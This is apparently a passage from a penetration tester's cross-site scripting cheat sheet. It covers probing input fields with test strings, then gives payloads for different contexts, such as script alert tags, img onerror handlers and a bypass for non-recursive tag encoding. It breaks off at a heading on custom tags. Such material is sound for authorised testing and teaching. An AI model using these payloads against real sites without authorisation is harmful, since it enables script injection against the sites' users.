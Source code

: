 
### Initial Probing

* Submit a test String to all the input fields one at a time and identify the context in which the data is being returned in the responses.  For Stored XSS, we can add the parameter name to the payload.  The below test strings will verify how the application responds to angle brackets, parenthesis, quotation marks, single quotes.

    * **Test Strings:**

```html
<>"'/\`
```
```html
Test123parameterName
```
```html
<u>Test123</u>
```
```html
<script>alert("Test123")</script>
```
```html
<script>alert('Test123')</script>
```

<br>

* **Depending on that context, the following payloads can be used to break out of the context and potentially execute XSS:**

## XSS between HTML tags and DOM XSS

### No encoding implemented on the injected data

* If injected input is not be validated or encoded, we can simply use the standard XSS payloads below:

```html
<script>alert(1)</script>
```
```html
<img src=x onerror=alert(1)>
```


### Tags are being encoded but not recursively

* The application may be encoding the injected tags, but not in a recursive way.  The \<test\> tag will be properly encoded and rendered as data, but the rest of the payload will be executed as code.

```html
<test> <img src=x onerror=alert(1)>
```


### Tags are blocked except for custom ones
